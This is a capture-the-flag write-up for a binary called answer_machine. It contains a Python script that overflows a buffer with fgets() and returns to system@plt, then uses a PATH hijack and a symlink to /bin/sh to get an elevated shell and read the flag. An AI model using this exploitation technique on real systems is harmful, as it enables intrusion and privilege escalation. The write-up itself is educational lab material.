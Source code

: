 This time round, we have ASLR and a non-executable stack. 
No problem. The vulnerability is still pretty easy, fgets() copies more data over to buffer which allows us to overwrite EIP in get_message().
Question is, where to return to? In this case, I chose to return to system@plt and pass system() date. I just needed to update my PATH environment
to look at the current directory first, and have a symlink to /bin/sh. Here's the exploit:


#!/usr/bin/env python
from struct import pack
buf = ""
buf += "A"*48
buf += pack("<I", 0x8048490)    # system@plt
buf += "BBBB"                   # dummy ret from system()
buf += pack("<I", 0x8049758)    # ptr to string "date"

open("in.txt", "w").write(buf) 

And now getting the flag:

team24254@shell:~/koji$ export PATH=.:${PATH}
team24254@shell:~/koji$ ln -sf /bin/sh date
team24254@shell:~/koji$ (cat in.txt;cat) | /problems/answer_machine/answer_machine
Welcome, today is Sun Apr 10 21:19:34 EDT 2016
I can't talk now, so leave a message:
Error opening file; message moved to trash
id
uid=1028(team24254) gid=1000(ctfgroup) euid=1081(answer_machine) groups=1004(answer_machine),1000(ctfgroup)
cat /problems/answer_machine/flag.txt
good_thing_sh_was_in_that_string
